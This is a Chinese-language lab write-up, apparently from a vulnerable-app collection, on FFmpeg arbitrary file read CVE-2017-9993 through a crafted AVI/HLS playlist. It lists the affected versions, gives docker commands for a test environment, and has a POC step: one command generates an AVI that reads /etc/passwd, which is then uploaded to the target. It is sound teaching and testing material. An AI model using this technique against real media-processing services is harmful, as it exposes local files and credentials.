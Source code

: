 ```yaml
---
layout: post
title: "FFmpeg 文件读取漏洞(CVE-2017-9993)"
date: 2017-06-28 22:15:32 +0800
image: '/assets/img/'
description: '程序未能正确的限制HTTP Live Streaming文件名扩展和demuxer名。攻击者可借助特制的播放列表数据利用该漏洞读取任意文件。'
main-class: 'hole'
color: '#B31917'
tags:
- FFmpeg
- Information-Disclosure
categories:
- FFmpeg
twitter_text: '程序未能正确的限制HTTP Live Streaming文件名扩展和demuxer名。攻击者可借助特制的播放列表数据利用该漏洞读取任意文件。'
introduction: '程序未能正确的限制HTTP Live Streaming文件名扩展和demuxer名。攻击者可借助特制的播放列表数据利用该漏洞读取任意文件。'
---
```


### 漏洞信息

FFmpeg是一个完整的跨平台解决方案，用于记录、转换流式传输音频和视频，可用于预览生成和视频转换的视频编码软件。已知FFmpeg可以处理可能包含对外部文件的引用的HLS播放列表,可以使用AVI文件中的GAB2字幕块来触发此功能，再通过XBIN编解码器检索转换节点的本地文件，从而导致了可以在转码后的视频里包含了本地文件.

### 影响范围

小于 2.8.12, 3.0.x 以及 3.1.x 版本小于 3.1.9, 3.2.x 小于 3.2.6, 以及 3.3.x 版本小于 3.3.2

### 镜像信息

类型 | 值
:-:|:-:
FFmpeg | 3.1.3
HTTP 端口 | 80
镜像 tag | f_ffmpeg_1

### 获取环境:

1. 拉取镜像到本地
 ```
$ docker pull medicean/vulapps:f_ffmpeg_1
 ```

2. 启动环境
 ```
$ docker run -d -p 8000:80 medicean/vulapps:f_ffmpeg_1
 ```
 > `-p 8000:80` 前面的 8000 代表物理机的端口，可随意指定。 

 访问 http://127.0.0.1:8000 


### POC

> 假如目标地址为： http://127.0.0.1:8000/

使用该脚本用于生成 POC: https://github.com/neex/ffmpeg-avi-m3u-xbin

以读取 `/etc/passwd` 为例：

1.生成特殊的视频文件

```
$ python3 gen_xbin_avi.py file:///etc/passwd passwd.avi
```

2.上传 [passwd.avi](./passwd.avi) 到目标，即可看到如下结果：

![](https://github.com/Medicean/VulApps/raw/master/f/ffmpeg/1/poc.png)


### 相关链接

* [CVE-2017-9993 Detail](https://nvd.nist.gov/vuln/detail/CVE-2017-9993)
* [ffmpeg-avi-m3u-xbin](https://github.com/neex/ffmpeg-avi-m3u-xbin)
* [FFmpeg 安全问题讨论](http://paper.seebug.org/338/)
